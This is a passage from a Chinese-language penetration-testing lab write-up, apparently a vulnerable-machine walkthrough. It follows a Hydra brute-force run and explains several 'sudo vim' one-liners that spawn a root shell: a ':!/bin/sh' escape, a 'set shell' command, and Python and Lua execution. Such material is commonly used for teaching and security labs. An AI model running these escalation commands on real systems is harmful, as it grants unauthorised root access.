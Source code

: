 ```bash
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-30 20:59:17
```

### 2. vim 提权

**vim提权方式**

```
sudo vim -c ':!/bin/sh'	| vim -c ':!/bin/sh'

sudo: 是一个用于以超级用户（root）身份运行命令的工具。它需要用户输入密码来验证身份。
vim: 是一个文本编辑器，在这个命令中被调用。
-c ':!/bin/sh': 这是在 vim 命令行模式下的参数。它执行一个称为 "ex 命令" 的 vim 命令，后面紧跟着一个 shell 命令。在这里的情况下，使用 :! 表示执行外部命令，而 /bin/sh 是 Bourne shell 的路径。整个命令的目的是在 vim 中执行一个 shell。

如果用户在一个具有 sudo 权限的环境中运行这个命令，并且没有适当的安全控制，那么这个命令将允许用户以超级用户权限运行一个 shell。
```

```
sudo vim --cmd ':set shell=/bin/sh|:shell'	|	vim --cmd ':set shell=/bin/sh|:shell'
vim: 是一个文本编辑器，在这个命令中被调用。
--cmd: 是一个选项，用于在启动 vim 时执行指定的命令。这个选项可以用来执行 ex 命令，它们会在 vim 启动后立即执行。
':set shell=/bin/sh|:shell': 这是一个使用 ex 命令的序列，它们被 vim 启动后的 --cmd 选项执行。具体来说：

:set shell=/bin/sh：这个命令设置 vim 的 shell 选项为 /bin/sh，意味着后续的 shell 命令将会在这个 shell 下执行。
|：这是一个分隔符，用于分隔多个 ex 命令。
:shell：这个命令会调用系统的 shell（在这里是 /bin/sh），将用户切换到交互式 shell 环境。
```

前提：需要机器安装了python3

```
sudo vim -c ':py import os;os.execl("/bin/sh", "-c", "reset; exec sh")'	| vim -c ':py import os;os.execl("/bin/sh", "-c", "reset; exec sh")'

vim -c：在vim启动之后，执行指定操作
import os;os.execl("/bin/sh", "-c", "reset; exec sh")：这是实际的 Python 代码。它导入了 Python 的 os 模块，并调用了 os.execl() 函数，传递了两个参数：

"/bin/sh"：这是要执行的程序的路径，即 Unix/Linux 系统上的 shell 解释器路径。
"-c"：这是传递给 shell 的参数，表示在执行命令前，要执行的是一个字符串命令。
"reset; exec sh"：这是要在 shell 中执行的字符串命令。这个命令首先尝试执行 reset 命令，然后通过 exec sh 在同一个 shell 中启动一个新的 shell 进程。
总之，这个命令的目的是在 Vim 启动后，通过 Python 代码调用系统的 shell 并尝试执行一些命令，包括清屏和启动一个新的 shell 进程。
```

前提：需要机器安装了Lua

```
vim -c ':lua os.execute("reset; exec sh")'
```

# Vulnerable Machine 2

## 信息搜集
